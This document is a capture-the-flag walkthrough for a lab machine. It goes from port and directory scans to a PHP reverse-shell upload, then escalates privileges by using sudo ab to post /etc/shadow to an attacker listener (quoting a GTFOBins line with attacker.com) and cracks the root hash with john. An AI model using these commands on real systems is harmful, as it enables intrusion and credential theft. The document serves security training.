



# NMAP

we begin by a nmap scan :

and see two ports: ssh and http
```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ nmap <IP>                 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-29 22:16 CEST
Nmap scan report for 10.10.104.209
Host is up (0.071s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.17 seconds
```

# Gobuster

and continue by run a gobuster scan :

```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <IP>
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.104.209
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/29 22:25:53 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.104.209/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.104.209/css/]    
/js                   (Status: 301) [Size: 311] [--> http://10.10.104.209/js/] 
/robots.txt           (Status: 301) [Size: 311] [--> http://10.10.104.209/robots.txt] 
```

in `robots.txt` we found this:

```text
User-agent: *

Disallow: /message.php 
```

going to <IP>/message.php



and find some messages:

```text
john: hello admin, my friends alice don't find her password
admin: the password of alice is:
```
try to login into the website

with the logins find in message.php and explore the website
, then we find an section called send files

where we can upload a php reverse shell [generator of reverse shell](http://revshells.com) use [pwnat-cs](https://github.com/calebstewart/pwncat) for listener and and go to `<IP>/upload/revshell.php` and getting the flag:

```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ pwncat-cs :9001   
[23:42:45] Welcome to pwncat 🐈!
[23:42:57] received connection from 127.0.0.1:49558
[23:42:57] 0.0.0.0:9001: upgrading from /usr/bin/dash to /usr/bin/bash
localhost:49558: registered new host w/ db
(local) pwncat$                                            
(remote) john@my-first-project:~$ ls
user.txt
(remote) john@my-first-project:~$ cat user.txt
THM{flag}
(remote) john@my-first-project:~$ 
```

# PrivEsc

then we type sudo -l for see the sudo perms of the user john:
```bash
john@my-first-project:~$ sudo -l
Matching Defaults entries for john on my-first-project:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on my-first-project:
    (root) NOPASSWD: /bin/ab
```

go to [GTFOBins](https://gtfobins.github.io/) and search for ab in gtfobins :
```bash
URL=http://attacker.com/
LFILE=file_to_send
sudo ab -p $LFILE $URL
```

for exploit this fail use netcat on the attacker pc:
```bash
nc -nlvp 9002
```

and set good params on the room bash:
```
URL=<IP>:9002/
LFILE=/etc/shadow
```

and exploit:
```
sudo ab -p $LFILE $URL
```

and it's return:
```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ nc -nlvp 9002               
listening on [any] 9002 ...
connect to [192.168.1.22] from (UNKNOWN) [192.168.1.25] 46008
POST / HTTP/1.0
Content-length: 1183
Content-type: text/plain
Host: 192.168.1.22:9002
User-Agent: ApacheBench/2.3
Accept: */*

root:hash:19199:0:99999:7:::
daemon:*:19046:0:99999:7:::
bin:*:19046:0:99999:7:::
sys:*:19046:0:99999:7:::
sync:*:19046:0:99999:7:::
games:*:19046:0:99999:7:::
man:*:19046:0:99999:7:::
lp:*:19046:0:99999:7:::
mail:*:19046:0:99999:7:::
news:*:19046:0:99999:7:::
uucp:*:19046:0:99999:7:::
proxy:*:19046:0:99999:7:::
www-data:*:19046:0:99999:7:::
backup:*:19046:0:99999:7:::
list:*:19046:0:99999:7:::
irc:*:19046:0:99999:7:::
gnats:*:19046:0:99999:7:::
nobody:*:19046:0:99999:7:::
systemd-network:*:19046:0:99999:7:::
systemd-resolve:*:19046:0:99999:7:::
systemd-timesync:*:19046:0:99999:7:::
messagebus:*:19046:0:99999:7:::
syslog:*:19046:0:99999:7:::
_apt:*:19046:0:99999:7:::
tss:*:19046:0:99999:7:::
uuidd:*:19046:0:99999:7:::
tcpdump:*:19046:0:99999:7:::
landscape:*:19046:0:99999:7:::
pollinate:*:19046:0:99999:7:::
usbmux:*:19198:0:99999:7:::
sshd:*:19198:0:99999:7:::
systemd-coredump:!!:19198::::::
lxd:!:19198::::::
mysql:!:19198:0:99999:7:::
john:hash:19199:0:99999:7:::
```
then use unshadow to bruteforce root password with john:
```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ unshadow passwd shadow > hash

┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
passwd      (root)     
1g 0:00:00:02 DONE (2022-07-29 23:37) 0.3773g/s 2125p/s 2125c/s 2125C/s allison1..katana
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

and use su to login as root and then go to /root for getting the 2nd flag:
```bash
Password: passwd
root@my-first-project:/home/john# cd /root
root@my-first-project:~# ls
root.txt  snap
root@my-first-project:~# cat root.txt
THM{flag}
root@my-first-project:~# 
```
